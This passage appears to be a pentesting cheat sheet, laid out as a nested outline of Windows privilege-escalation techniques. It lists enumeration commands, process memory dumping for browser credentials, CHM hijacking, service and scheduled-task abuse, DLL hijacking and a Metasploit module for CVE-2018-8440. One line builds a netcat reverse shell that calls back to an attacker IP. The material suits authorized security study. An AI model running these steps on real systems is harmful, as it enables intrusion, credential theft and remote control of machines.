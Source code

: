             *   Browsers / Password Managers
            *   `procdump.exe -accepteula -ma [PROC_NAME]`
    *   Applications
        *   Exploit Research / License & Readme / Executable Help & Flags / Network Access
        *   `wmic product get name,version`
        *   `dir /a /q "C:\Program Files" "C:\Program Files (x86)"`
        *   `cd C:\`  → Non-Default Folders / `inetpub` / `passcore`
        *   Application Data Folders
            *   Sensitive Extensions  → `.conf` / `.xml` / `.cnf` / `.config` / `.ini` / `.txt` / `.log` / Encrypted / Archives / SQLITE
            *   `C:\Users\[USERNAME]\AppData`
            *   `C:\ProgramData`
            *   `C:\ProgramData\Configs\*`
            *   `C:\Program Files\Windows Powershell\*`
            *   `%WINDIR%\System32\CCM\logs\*.log`
        *   CHM Hijacking
            *   `.chm` Files Exists → Check If `C:\Program Files (x86)\HTML Help Workshop` Installed
            *   [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)           → `Out-CHM -Payload "c:\windows\temp\nc64.exe -e cmd [KALI_IP] [PORT]" -HHCPath "[HTML_HELP_WORKSHOP_PATH]`
            *   `listen [PORT]`    → Wait Callback
        *   Custom Binaries
            *   Reverse Engineering → Basic Enumeration / Ghidra Decompiling
            *   Local / [Remote](https://gist.github.com/Reodus/153373b38b7b54b3e3034cb14122f18a) BOF → ImmunityDebugger / MSFVenom Shellcoding / Vulnerable Functions
    *   Scheduled Jobs
        *   Scripts
            *   `dir /a /q /s /b *.bat *.ps1`
            *   Scheduled Execution → Overwrite + Wait
        *   Tasks
            *   `schtasks /query /fo LIST /v | findstr /v "\Microsoft*" | findstr TaskName`
            *   `schtasks /query /fo LIST /v | findstr /v "\Microsoft*" | findstr [TASK_NAME_HERE]`
            *   `icacls` → (F/M/W) File/Folder Permissions → Overwrite + Wait / DLL Hijack
        *   PS Spying
            *   `$process = Get-WmiObject Win32_Process | Select-Object CommandLine`
            *   `Start-Sleep`
            *   `$process2 = Get-WmiObject Win32_Process | Select-Object CommandLine`
            *   `Compare-Object -ReferenceObject $process -DifferenceObject $process2`
        *   Autoruns
            *   `wmic startup get caption,command 2>nul & ^`
            *   `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\[User] Shell Folders`
            *   `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "[Userinit/Shell]"`
            *   `icacls` → (F/M/W) File/Folder/Key Permissions → Overwrite + Wait Login / DLL Hijack
        *   CVE-2018-8440
            *   `icacls C:\Windows\Tasks` → `Authenticated Users: (RX,WD)`
            *   Metasploit                             → `use exploit/windows/local/alpc_taskscheduler` → Launch on MSF Session
    *   Services
        *   Enumeration
            *   Tools
                *   SharpUp  → `sharpup.exe audit`
                *   PowerUp → `Invoke-AllChecks`
                *   JAWS / Seatbelt / Invoke-PrivescCheck
            *   Manual
                *   `sc query` / `net start` / `Get-WMIObject Win32_Service`
                *   `cd HKLM:\system\currentcontrolset\services` → `dir`
                *   `wmic service get name,startmode,pathname | findstr /i /v “c:\windows\\”`
                *   `sc qc [SERVICE]`         → LocalSystem + Trigger Type
                *   `sc sdshow [SERVICE]` → `[RP/DC];;;[AU/BA/WD]`
                *   ACL Enumeration
                    *   `PS:> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "[USER] Users Path Everyone"`
            *   Triggers
                *   `MANUAL/DEMAND`   → `sc [stop/start] [SERVICE]`